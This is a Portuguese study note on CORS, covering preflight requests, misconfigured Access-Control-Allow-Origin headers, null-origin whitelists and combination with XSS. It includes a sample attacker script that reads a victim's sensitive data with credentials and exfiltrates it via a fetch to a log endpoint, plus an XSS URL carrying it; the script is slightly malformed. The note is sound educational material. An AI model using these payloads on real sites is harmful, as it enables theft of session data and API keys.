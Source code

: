 #web 


O CORS ou **Cross-origin resource sharing** é um mecanismo presente nos navegadores para habilitar o acesso a recursos de outros domínios ou outras fontes. Ele extende outro mecanismo o [[Same-Origin Policy]].

## CORS e SOP

O SOP é um mecanismo bem restritivo e muitos websites interajem com outros websites, seja de subdomínios ou websites de terceiros. Uma maneira de "relaxar" essa interação é através do CORS.

O CORS utilizada um conjunto de headers HTTP para definir as origens confiáveis, como por exemplo:
* **Access-Control-Allow-Origin** -> quando um servidor web recebe uma requisição HTTP de origem diferente, ele responde incluindo esse header na resposta.
* **Access-Control-Allow-Credentials** -> o comportamento padrão de requisições CORS são de requisições onde não é passado as credenciais, entretanto o servidor pode permitir que o JS na origem inclua as credenciais na requisição.

## Pre-flight

É uma requisição CORS que utiliza 3 headers HTTP:

```
OPTIONS /resource/foo
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: https://foo.bar.org
```

Essa requisição é enviada automaticamente para o servidor, perguntando ao servidor se é possível utilizar requisições como por exemplo o **DELETE**.

Se o servidor permitir, ele irá retorna a resposta com seguinte cabeçalho:

```
HTTP/1.1 204 No Content
Connection: keep-alive
Access-Control-Allow-Origin: https://foo.bar.org
Access-Control-Allow-Methods: POST, GET, OPTIONS, DELETE
Access-Control-Max-Age: 86400
```

## CORS e CSRF

O CORS não protege contra [[CSRF]], apenas flexibiliza a utilização do SOP, porém, se mal configurado pode ser uma ameaça a CSRF. 

## Vulnerabilidades

### Header ACAO gerado pelo servidor

Algumas aplicações permitem que qualquer domínio acesse seus recursos. Uma forma de testar isto é, modificando o `origin` e vendo a resposta do servidor.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: https://malicious-website.com` |
| `Origin: https://malicious-website.com`          | `Access-Control-Allow-Credentials: true`     |
| `Cookie: sessionid=...`                          | ...                                           |

Se a informação retorna dados sensíveis como dados de sessão, o *hacker* pode enviar um website fake para a vítima para colher esses dados, usando por exemplo o script abaixo:

```html
    <script>
        var xhr = new XMLHttpRequest();
        var url = "https://site-legitimo";
            
        xhr.onreadystatechange = function() {
            if(xhr.readyState === XMLHttpRequest.DONE) {
                    fetch("/log?key=" + xhr.responseText);
            }
        }
        xhr.open("GET", url, "/sensitive-victim-data", true);
        xhr.withCredentials = true;
        xhr.send(null);
    </script>
```

### Whitelists

Um das formas de permitir determinados domínios, é criando uma lista de domínios permitidos. Algumas aplicações podem criar essas listas para permitir o acesso de todos os subdomínios (incluindo futuros subdomínios que não existe) por meio de regex ou adicionando prefixos e sufixos na url. Qualquer erro nessa implementação pode garantir acesso de domínios externos.

Outro caso, é o uso do valor `null` na *whitelist* para dar acesso ao ambiente de desenvolvimento local da aplicação.

| Requisição                                      | Resposta                                      |
| ------------------------------------------------ | --------------------------------------------- |
| `GET /sensitive-victim-data HTTP/1.1`            | `HTTP/1.1 200 OK`                             |
| `Host: vulnerable-website.com`                   | `Access-Control-Allow-Origin: null` |
| `Origin: null`                                      | `Access-Control-Allow-Credentials: true`     |

Essa situação é semelhante a situação anterior.

### XSS

Mesmo que o CORS esteja configurado certo, se um website confiável é vulnerável a [[XSS]], o *hacker* pode usar isso ao seu favor, podendo pegar uma API key, usando a url:

```
https://subdomain.site-vulneravel.com/?xss=<script>aquele codigo acima do cors por exemplo</script>
```
## Como mitigar

* Evite usar o header `Access-Control-Allow-Origin: Null` e `Access-Control-Allow-Origin:*`
* Acesse apenas websites confiáveis

## Referência

https://portswigger.net/web-security/cors#vulnerabilities-arising-from-cors-configuration-issues